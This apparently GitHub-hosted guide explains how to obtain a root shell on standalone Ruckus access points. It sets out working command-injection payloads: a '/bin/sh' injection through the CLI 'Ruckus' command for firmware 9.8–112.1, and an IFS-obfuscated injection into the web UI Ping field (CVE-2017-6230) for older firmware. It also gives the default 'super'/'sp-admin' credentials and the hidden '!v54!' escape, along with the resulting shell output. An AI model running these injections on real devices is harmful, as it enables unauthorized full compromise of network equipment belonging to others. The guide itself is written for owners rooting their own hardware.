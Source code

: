 # Obtaining a root shell on Standalone/Solo Ruckus APs

The Ruckus CLI includes a hidden `!v54!` command which exits to a root shell.  

* Very old AP firmware checks a configuration setting `cli_esc2shell_ok` to decide whether the `!v54!` command is available.  
* Newer AP firmware checks an encrypted serial# to decide whether the `!v54!` command is available.  
The encrypted serial# is saved to a file using the `Ruckus` command, then the `!v54!` command uses `sesame` to decrypt this file.

## Firmware >112.1

Sorry, I don't have a method to bypass the serial# check on newer Standalone/Solo AP firmwares

## Firmware 9.8 - 112.1

These AP firmware versions [don't sanitize the encrypted serial#](https://alephsecurity.com/vulns/aleph-2019014#proof-of-concept).  
So we can use the `Ruckus` command to inject a root shell.
> Note that the injection only needs to be performed once.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -oCiphers=+aes256
```

Login. Default username is "super", password is "sp-admin".

### Command injection

```console
rkscli: Ruckus
```

Now type `";/bin/sh;"` and hit enter *(you won't be able to see what you're typing)*

```console
grrrr
```

> Instead of `grrrr`, any other random dog noise could  be printed to the screen. 

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
BusyBox v1.15.2 (2015-07-21 22:07:19 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

#
```

You have a root shell.

## Firmware Pre-9.8

These AP firmware versions [don't sanitize the input to the Ping diagnostic tool](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-6230).  
So we can use `Ping` to enable `cli_esc2shell_ok`.
> Note that the `Ping` enablement only needs to be performed once.

### Connect to the AP's Web UI

Login. Default username is "super", password is "sp-admin".

### Enable shell escape

Go to `Administration` > `Diagnostics`, paste `|rpm${IFS}-p${IFS}cli_esc2shell_ok="t"` into the `Ping:` textbox & hit `Run test`.

### SSH to the AP

```console
$ ssh 192.168.0.1 -oKexAlgorithms=+diffie-hellman-group1-sha1 -oHostKeyAlgorithms=+ssh-rsa -oCiphers=+aes256
```

Login. Default username is "super", password is "sp-admin".

### Escape to shell

```console
rkscli: !v54!
What's your chow: 
```

Now hit enter

```console
BusyBox v1.15.2 (2015-07-21 22:07:19 PDT) built-in shell (ash)
Enter 'help' for a list of built-in commands.

#
```

You have a root shell.
